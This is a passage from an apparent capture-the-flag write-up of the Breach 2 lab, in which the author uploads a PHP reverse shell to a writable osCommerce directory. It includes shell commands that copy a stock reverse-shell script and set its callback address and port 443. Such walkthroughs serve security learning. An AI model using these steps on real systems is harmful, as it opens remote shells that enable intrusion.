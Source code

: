 I found a directory writable in /var/www/html2/oscommerce/includes/work, I located there and upload a PHP reverse shell.

![](/assets/images/breach2/screenshot-12.png)

```bash
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.110.150/;s/1234/443/' shell.php
```
![](/assets/images/breach2/screenshot-13.png)
